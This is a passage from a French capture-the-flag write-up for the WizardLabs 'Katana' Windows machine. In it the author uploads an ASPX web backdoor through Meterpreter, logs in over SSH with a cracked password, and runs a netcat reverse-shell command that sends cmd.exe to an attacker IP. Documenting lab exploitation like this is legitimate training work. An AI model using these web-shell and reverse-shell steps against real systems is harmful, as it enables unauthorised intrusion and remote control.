 Comment bypasser ça ? J'airais bien misé sur [Chankro](https://github.com/TarlogicSecurity/Chankro) comme pour [le CTF Darknet](http://devloop.users.sourceforge.net/index.php?article160/solution-du-ctf-darknet-de-vulnhub) mais il ne semble pas supporter Windows.  

Pour peu que l'on dispose de suffisamment de droits sur le système de fichier on peut tenter d'écrire sur la racine web du IIS (*c:\inetpub\wwwroot*) et faire fonctionner l'interpréteur asp/aspx.  

J'ai uploadé [cette backdoor ASPX](https://raw.githubusercontent.com/fuzzdb-project/fuzzdb/master/web-backdoors/asp/cmd.aspx) via la session Meterpreter et boum ! A nous l'exécution de commandes :)  

![WizardLabs CTF Katana ASPX web backdoor](/assets/img/wizard-labs/katana/katana_webshell.png)

Sans trop de surprises on a une exécution avec les droits *katana\www* et toujours pas de flag utilisateur :(  

Les process montrent la présence d'un serveur SSH :  

```plain
ssh.exe                       8100                            0        100 K
conhost.exe                   7684                            0        488 K
sshd.exe                      2516                            0         96 K
sshd.exe                      4212                            0        100 K
conhost.exe                   6244                            0        480 K
sshd.exe                      7388                            0         96 K
ssh-shellhost.exe             7528                            0        136 K
```

Bonne nouvelle, le port forwarding de notre Meterpreter fonctionne et on peut alors se connecter avec le compte *antoine* (dont on a cassé le mot de passe plus tôt) sur le système.  

La joie est malheureusement de courte durée car la session très vite interrompue, peut être liée à l'exécution de PHP...  

La solution est d'uploader un netcat sur le système est de le lancer via SSH ce qui nous permet d'avoir un reverse shell stable :  

```plain
ssh -p 2223 antoine@127.0.0.1 'c:\wamp64\nc64.exe -e cmd.exe 10.254.0.29 9999'
```
